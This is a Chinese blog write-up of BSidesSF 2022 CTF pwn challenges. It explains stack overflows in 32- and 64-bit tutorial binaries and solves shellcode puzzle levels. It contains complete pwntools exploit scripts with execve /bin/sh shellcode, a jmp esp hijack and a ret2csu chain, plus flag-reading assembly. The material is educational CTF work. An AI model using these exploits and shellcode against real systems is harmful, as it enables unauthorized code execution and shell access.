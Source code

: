 ```yaml
---
title: BSidesSF 2022 CTF
date: 2022/6/5 20:46:25
tags:
 - PWN
categories:
 - BSidesCF
---
```


第一次打国外的比赛，由于好几道pwn题出的非常萌新，所以做起来比较舒服（我做出来了三道shellcode闯关和两道无保护的栈题）。其中有两道题的代码是一样的，一个是32位的，一个是64位的。整体利用思路一样，我就详细说一下32位的,64位的这个题同理。
<!--more-->
# Tutorial

## 保护策略：

<img src="https://s2.loli.net/2022/06/06/sNCMezaOjPIE9TB.png" alt="image-20220604212148738" style="width:50%;" />

只要看到没开NX，就往shellcode方面考虑。

## 漏洞分析：

![image-20220604212652290](https://s2.loli.net/2022/06/06/ravABjUV8EmO3f5.png)

这里程序泄露了好几个地址，并且还给了提示，说只能输入16进制的字符。结合提示继续往下分析。

<img src="https://s2.loli.net/2022/06/06/zrvmtiUA5u94wOF.png" alt="image-20220604212709635" style="width:50%;" />

程序正常可以无限次的read函数，每次可以输入0x40字节。

<img src="https://s2.loli.net/2022/06/06/peFn2xCfXPIG7qD.png" alt="image-20220604212728654" style="width: 33%;" />

（结合上图）发现这个buf并不能溢出，也不能干扰到任何数据。

<img src="https://s2.loli.net/2022/06/06/lXYNKCBTd16axVh.png" alt="image-20220605184815671" style="width:50%;" />

（结合上图）问题出在v2上面，由于read无限次被循环执行,v2却始终没有被清零，意味只要return不被触发，v2就这个下标无限制，可以一直往高地址去写入数据。再看一下decodehex这个函数（下图）

<img src="https://s2.loli.net/2022/06/06/bBkYuNg3m21ZMFH.png" alt="image-20220604212854398" style="width:50%;" />

发现这里有个检查，要确定我们输入的数据是否属于0~9 a~f A~F。如果不是在这个范围的话则会返回-1。

![image-20220605183435486](https://s2.loli.net/2022/06/06/zr6kZDycuvI7eba.png)

如果返回-1的话，这个主函数就会退出了，否则就可以把这个字符存在栈里的这个位置（如下图）

<img src="https://s2.loli.net/2022/06/06/XaKo4EHBMrRnkWS.png" alt="image-20220605183958746" style="width:50%;" />

可以发现这是在当前函数的返回地址下面，猛一看似乎感觉也不能修改当前函数的返回地址。不过调试一下就发现，challenge函数的返回地址在输入点的下面（这就意味着challenge函数的返回地址是可以被溢出修改的）结合上面分析的，v2没有被清零导致了数据可以无限往下输入造成溢出。

![image-20220605184725900](https://s2.loli.net/2022/06/06/nOcv46uWkPiCIo5.png)

## 利用思路：

由于没开NX，最后获取shell的方式考虑用shellcode，不过shellcode没法第一次就直接写进去，因为即使是用纯字符的shellcode，也无法绕过检查（检查只允许0-9 a-f A-F)，。我考虑过把shellcode放到0x40的一次输入里面，然后迁移过去执行，不过由于read一次只能读入0x40，而生成的shellcode有一百二十多个字节，因此这个方法也不行。**最终的方法是劫持执行流，再执行一次read函数（控制参数，劫持返回地址为jmp esp）把shellcode精准写到jmp esp下面的地址即可获取shell。**至于再输入的这个shellcode是字符型的还是字节流无所谓了。

<img src="https://s2.loli.net/2022/06/06/tr6YAaVousmU3c7.png" alt="image-20220605190520975" style="width: 50%;" />

<img src="https://s2.loli.net/2022/06/06/ypfbWhX5kPmlDrE.png" alt="image-20220605190652373" style="width:50%;" />

> 为什么要用jmp esp这个指令？
>
> ret指令相当于pop reip，如果执行ret指令时栈顶的内容是shellcode机器码，那么就会把机器码弹给eip，但是eip仅仅要的是一个指令的地址而已，你却弹给它了一个机器码，因此程序就会崩溃。所以需要用jmp esp，也就是跳转到esp中存储的地址处（也就是跳转到shellcode的地址），进而执行shellcode。
>
> 劫持执行流的偏移是怎么得到的？
>
> 这个通过IDA是看不出来（也可能是我比较菜QAQ），然后通过gdb去调试，输入一些垃圾字符，看看输入到多少的时候可以溢出到challenge的返回地址。

**需要注意的是，经过调试，写入栈里的地址数据是反着存储的，因此exp上写的地址应该反着写，存储的时候就正了。**

## EXP：

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```python
from tools import *
p,e,libc=load('a')
#p=remote('tutorial-f0115733.challenges.bsidessf.net',3232)
#debug(p,0x080492C7)
context.arch='i386'
shellcode=asm('''
xor ecx,ecx
xor edx,edx
xor ebx,ebx 
push ebx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
push 11
pop eax
int 0x80
''')
def re(a):
    '''由于栈地址是随机的，所以写了个函数将接收的栈地址给转换一下'''
    sum=0
    for i in range(4):
        b=(a>>(i*8))&0xff
        sum=b+sum*16*16
    return hex(sum)
p.recvuntil('EIP from the calling function is 0x804940f and saved at ')
leak_stack_addr=int(p.recv(10),16)
log('leak_stack_addr',hex(leak_stack_addr))
target_stack_addr=leak_stack_addr+0x8#调试一下，获取这个偏移
log('target_stack_addr',hex(target_stack_addr))
a=re(target_stack_addr)
print(a[2:])
payload='a'*60+'b'*60+'c'*48+'30900408'+'c9920408'+'00000000'+a[2:]+'00001000'
p.sendline(payload)
pause()
p.sendline(shellcode)
p.interactive()
```



<img src="https://s2.loli.net/2022/06/06/3ObNElsnd1YoCfz.png" alt="image-20220605200714258" style="width: 33%;" />





# Tutorial64

这道题和32位的思路是完全一样的，不一定的地方是执行read传参的时候要用一下ret2csu。

## EXP：

```python
from tools import *
p,e,libc=load('b')
p=remote('tutorial64-98df6ee7.challenges.bsidessf.net',6464)
#debug(p,0x40129A)
context.arch='amd64'
shellcode=asm('''
xor rax,rax
push 0x3b
pop rax
xor rdi,rdi
mov rdi ,0x68732f6e69622f
push rdi
push rsp
pop rdi
xor rsi,rsi
xor rdx,rdx
syscall
''')
def re(a):
    sum=0
    for i in range(8):
        b=(a>>(i*8))&0xff
        sum=b+sum*16*16
    return hex(sum)
pop_rdi_addr=0x40142b
pop_rsi_r15_addr=0x401429
gadget1_addr=0x401422
gadget2_addr=0x401408
jmp_addr=0x80492c9
read_got_addr=e.got['read']
p.recvuntil('RIP from the calling function is 0x4013c1 and saved at ')
leak_stack_addr=int(p.recv(14),16)
log('leak_stack_addr',hex(leak_stack_addr))
target_stack_addr=leak_stack_addr+0x80
log('target_stack_addr',hex(target_stack_addr))
a=re(target_stack_addr)
print(a[2:])
payload='a'*60+'b'*60+'c'*56+re(gadget1_addr)[2:]
payload+='0000000000000000'#rbx
payload+='0100000000000000'#rbp
payload+='0000000000000000'#rdi
payload+=re(target_stack_addr)[2:]#rsi
payload+='0001000000000000'#rdx
payload+=re(read_got_addr)[2:]
payload+='0814400000000000'
payload+='0000000000000000'*7
payload+='9c12400000000000'
p.sendline(payload)
pause()
p.sendline(shellcode)
p.interactive()
```

<img src="https://s2.loli.net/2022/06/06/KJP2xTnkAZNQiuC.png" alt="image-20220605201640972" style="width: 33%;" />



# shurdles1

然后是shellcode闯关题，对于我这种萌新来说做起来还是比较有意思的。

题目就给了个ip和port，连上去直接开始闯关。

<img src="https://s2.loli.net/2022/06/06/Uh2oY3sAGJp1rZX.png" alt="image-20220605202310129" style="width: 33%;" />

## 第一关

<img src="https://s2.loli.net/2022/06/06/igHeP8r7IaNRJxc.png" alt="image-20220605202357671" style="width: 50%;" />

这个就是让你明确写法格式，照着输入即可。

```assembly
xor rax, rax
ret
.
```

这个地方.是核心（这个.困扰我了很久很久，最后才发现这里的问题），或者输入机器码也行，不过我一直写的是汇编。

## 第二关

<img src="[BSidesSF 2022 CTF].assets/image-20220605202624255.png" alt="image-20220605202624255" style="width:50%;" />

这一关想让你返回1，这就意味着你的rax寄存器里要是1，然后使用ret返回。

```assembly
mov rax,1
ret
.
```

## 第三关

<img src="[BSidesSF 2022 CTF].assets/image-20220605203041589.png" alt="image-20220605203041589" style="width:50%;" />

这次是想让返回值是2，但是不想让你使用ret指令来完成。给的提示是使用系统调用exit。查一下系统调用号，然后给rdi传参为2，rax放成60(exit的系统调用号)

```assembly
mov rax,60
mov rdi,2
syscall
.
```

## 第四关

![image-20220605203440517](https://s2.loli.net/2022/06/06/GwDtq9f7nXhjNsd.png)

这次想让返回值为3（can you exit with code 3)这句其实我也不知道咋翻译比较准确，反正我这勉强及格的英语水平能明白它意思，但是描述不是很清楚。

同时你不可以使用ret或者syscall指令。给的提示是让使用pop 和jmp来做到这一点。

ret指令相当于pop rip再跳转到rip。不能使用ret，就可以把这个指令拆开实现。先pop 一个寄存器，然后再jmp跳转过去，其实就等同于ret指令了。

```assembly
mov rax,3
pop rdi
jmp rdi
.
```

<img src="https://s2.loli.net/2022/06/06/wph5IjqnS7A9VJy.png" alt="image-20220605204139956" style="width:50%;" />



# shurdles2

## 第一关

<img src="https://s2.loli.net/2022/06/06/Z98uboqdszTUBG7.png" alt="image-20220605204233997" style="width:50%;" />

这一关是想让地址0x12345678出崩溃，给的提示说jmp跳转到这个地址就可以让它崩溃了。

```assembly
mov rax,0x12345678
jmp rax
.
```

## 第二关

<img src="https://s2.loli.net/2022/06/06/goFt8GphHWMBiDb.png" alt="image-20220605204431458" style="width:50%;" />

这次人家不让用jmp了，想让用ret。

因为ret是pop rip，所以我们提前把这个0x12345678压到栈顶，然后ret即可。

```assembly
push 0x12345678
ret
.
```

## 第三关

<img src="https://s2.loli.net/2022/06/06/c39LyubpJG6kglx.png" alt="image-20220605204625021" style="width: 50%;" />

这一关想让你把字符串的地址保存在一个寄存器里，然后把寄存器作为返回值返回了。

**汇编语言中DB是定义单字节数据段的意思，编译时DB后面的数据将视为纯数据而不是指令代码**

按照给的提示，call会把下一条指令的地址压栈（**也就是把字符串给压栈了**），然后进行了近调用（去执行below里的内容），然后执行了pop rdi**（也就是把字符串的地址弹到了rdi里面）**，拿到了字符串的地址，然后将其赋值给rax，然后ret即可。

```assembly
call below
db "BSides San Francisco",0
below:
pop rdi
mov rax,rdi
ret
.
```

<img src="https://s2.loli.net/2022/06/06/IfwjcV6CbGMQN8n.png" alt="image-20220605205330512" style="width:50%;" />

# shurdles3

## 第一关

<img src="https://s2.loli.net/2022/06/06/nqYRJirNV2seDm5.png" alt="image-20220605205852136" style="width:50%;" />

这个很简单，之前也做过了，就是要使用exit退出时的代码为123。

```assembly
mov rax,60
mov rdi,123
syscall
.
```

## 第二关

<img src="https://s2.loli.net/2022/06/06/CF6o7kVvJp5sXDA.png" alt="image-20220605210132746" style="width:50%;" />

想系统调用write，然后将Hello,BSides!这句话打印出来并且使用exit退出。

```assembly
call write
db "Hello, BSides!",0 
write:
pop rsi
mov rdi,1
mov rdx,14
mov rax,1
syscall
mov rax,60
xor rdx,rdx
syscall
.
```

## 第三关

<img src="https://s2.loli.net/2022/06/06/mWKTz8U1xRbM6dq.png" alt="image-20220605210723155" style="width:50%;" />

此时来到了最后一关。

想让我们用open,read,write来读出flag并且进行退出（人家还说Be sure to exit cleanly，我这个英语渣渣认为是要用ret返回并且返回值为0）。flag位于/app/level2.yaml

那这题不就和打宝宝一样简单么。**需要注意的是人家提示说open返回的这个文件描述符是随机的，并不是3，所以这里要用mov把rax里装的返回值给传过来**

```assembly
call below
db "/app/level2.yaml",0
below:
pop rdi
mov rax,2
mov rsi,0
syscall
mov rdi,rax
mov rsi,rsp
sub rsi,60
push 48
pop rdx
push 0
pop rax
syscall
mov rdi,1
mov rsi,rsp
sub rsi,60
mov rdx,48
mov rax,1
syscall
mov rax,0
ret
.
```

<img src="https://s2.loli.net/2022/06/06/zOueQdn7YsKtD6g.png" alt="image-20220605211437993" style="width:50%;" />
